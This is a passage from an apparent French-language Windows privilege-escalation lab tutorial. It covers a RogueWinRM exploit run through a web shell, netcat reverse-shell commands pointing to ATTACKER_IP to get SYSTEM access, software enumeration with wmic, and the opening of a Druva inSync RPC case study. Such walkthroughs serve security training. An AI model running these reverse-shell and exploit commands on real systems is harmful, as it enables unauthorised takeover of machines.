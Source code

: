```bash
nc -lvp 4442
```

Ensuite, utilisez notre shell web pour déclencher l'exploit RogueWinRM à l'aide de la commande suivante :

```powershell
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

Note : L'exploit peut prendre jusqu'à 2 minutes pour fonctionner, il se peut donc que votre navigateur ne réponde pas pendant un certain temps. Cela se produit si vous exécutez l'exploit plusieurs fois, car il doit attendre que le service BITS s'arrête avant de le relancer. Le service BITS s'arrêtera automatiquement après 2 minutes de démarrage.

Le paramètre `-p` spécifie l'exécutable à exécuter par l'exploit, qui est `nc64.exe` dans ce cas. Le paramètre `-a` est utilisé pour passer des arguments à l'exécutable. Comme nous voulons que nc64 établisse un shell inversé contre notre machine attaquante, les arguments à passer à netcat seront `-e cmd.exe ATTACKER_IP 4442`.

Si tout a été correctement configuré, vous devriez obtenir un shell avec les privilèges SYSTEM.


## Logiciels non-patchés / vulnérables

Les logiciels installés sur le système cible peuvent présenter diverses possibilités d'escalade des privilèges. Comme pour les pilotes, les organisations et les utilisateurs peuvent ne pas les mettre à jour aussi souvent qu'ils mettent à jour le système d'exploitation. Vous pouvez utiliser l'outil `wmic` pour dresser la liste des logiciels installés sur le système cible et de leurs versions. La commande ci-dessous va déverser les informations qu'elle peut recueillir sur les logiciels installés (elle peut prendre environ une minute pour se terminer) :

```powershell	
wmic product get name,version,vendor
```
N'oubliez pas que la commande `wmic product` ne renvoie pas nécessairement tous les programmes installés. En fonction de la manière dont certains programmes ont été installés, il se peut qu'ils ne soient pas répertoriés ici. Il est toujours utile de vérifier les raccourcis du bureau, les services disponibles ou, d'une manière générale, toute trace indiquant l'existence d'un logiciel supplémentaire susceptible d'être vulnérable.

Une fois que nous avons recueilli les informations sur la version du produit, nous pouvons toujours rechercher des exploits existants sur les logiciels installés en ligne sur des sites tels que exploit-db, packet storm ou le bon vieux Google, parmi beaucoup d'autres.

### Cas d'étude : Druva inSync 6.6.6.3

Le serveur cible utilise Druva inSync 6.6.3, qui est vulnérable à l'escalade de privilèges comme rapporté par [Matteo Malvica](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/). La vulnérabilité résulte d'un mauvais correctif appliqué sur une autre vulnérabilité rapportée initialement pour la version 6.5.0 par [Chris Lyne](https://www.tenable.com/security/research/tra-2020-12).

Le logiciel est vulnérable parce qu'il exécute un serveur RPC (Remote Procedure Call) sur le port 6064 avec les privilèges SYSTEM, accessible uniquement depuis localhost. Si vous n'êtes pas familier avec RPC, il s'agit simplement d'un mécanisme qui permet à un processus donné d'exposer des fonctions (appelées procédures dans le jargon RPC) sur le réseau afin que d'autres machines puissent les appeler à distance.
